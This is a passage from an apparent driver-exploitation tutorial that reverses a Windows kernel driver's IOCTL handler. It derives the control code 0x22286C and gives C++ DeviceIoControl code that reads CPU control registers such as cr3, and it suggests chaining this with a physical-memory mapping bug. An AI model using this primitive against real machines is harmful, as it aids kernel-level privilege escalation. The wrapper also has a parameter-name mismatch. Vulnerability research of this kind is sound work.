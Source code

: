 Now you have a basic understanding of reversing the dispatch routine to recreate communication structures, we'll advanced to our next vulnerability: read & write control registers.

## Read/Write Control Registers

```cpp
  if ( !v79 )
    if ( *(_DWORD *)SystemBuffer ) {
            switch ( *(_DWORD *)SystemBuffer )
            {
              case 2:
                CurrentIrql = __readcr2();
                break;
              case 3:
                CurrentIrql = __readcr3();
                break;
              case 4:
                CurrentIrql = __readcr4();
                break;
              case 8:
                CurrentIrql = KeGetCurrentIrql();
                break;
              default:
                *(_QWORD *)(Irp + 0x38) = 0i64;
                *(_DWORD *)(Irp + 0x30) = 0xC0000001;
                goto LABEL_132;
            }
    }
    else
    {
            CurrentIrql = __readcr0();
    }
```

From this snippet, we can see that the first subobject within the communication buffer should represent the control register we want to read from. We aren't allowed to read every control register that there is, and in the case we pass an option that is not present, our driver returns to us the `STATUS_UNSUCCESSFUL` `NTSTATUS` error code. We are also allowed to obtain the current `IRQL`, which is just a read from `cr8`. The read `cr3` privilege exposed would work well with the map physical & read/write vulnerability that we will inspect later, but unfortunately there are some security mitigations involving `MmMapIoSpace` that prevent us from mapping page tables, but you could try on older versions of windows. The only ambiguity associated with this vulnerability is its control code, due to the way the psuedocode is presented to us. Luckily, deciphering it is just a matter of adding numbers. We can see that the condition for this vulnerability to be executed is satisfied when `v79` is 0. I've highlighted all the lines associated with `v79`, whether explicitly or not, until we have a hardcoded value. Using this techqniue, we know that `ControlCode - 2238556 - 16 = 0`, and so we make ControlCode the subject of the equation to get its value. We subtract 16 because it is the product of 4*4, since 4 was subtracted from the original control code 4 times. Now we know that our control code is `2238572` or `0x22286C` for reading control registers, we can send a request to our driver.

```cpp
unsigned __int64 read_cr(uint64_t control_reg)
{
	uint64_t InputBuffer[2];
	*InputBuffer = ControlRegister;

	DWORD bytes_returned;
	DeviceIoControl(drv_handle, 2238572, &InputBuffer, 
        sizeof(InputBuffer), &InputBuffer, sizeof(InputBuffer),
     &bytes_returned, nullptr);

	return InputBuffer[1];
}
```
